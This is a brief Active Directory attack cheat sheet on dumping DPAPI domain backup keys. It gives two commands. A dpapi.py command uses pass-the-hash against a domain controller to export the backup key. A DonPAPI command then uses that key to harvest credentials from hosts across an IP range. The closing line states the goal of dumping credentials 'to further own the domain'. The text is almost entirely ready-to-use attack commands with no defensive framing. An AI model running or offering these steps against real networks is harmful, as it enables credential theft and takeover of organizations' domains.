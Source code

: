 # DPAPI Backup Keys dumping

## Tools: dpapi.py , DonPAPI

 - dpapi.py backupkeys -hashes':HASH' -t Administrator@DC_IP --export

### Then

 - DonPAPI -pvk DOMAIN_BACKUP_KEY.PVK -H':HASH' DOMAIN/USER@IP_RANGE

### With this technique, we dump credentials to further own the domain
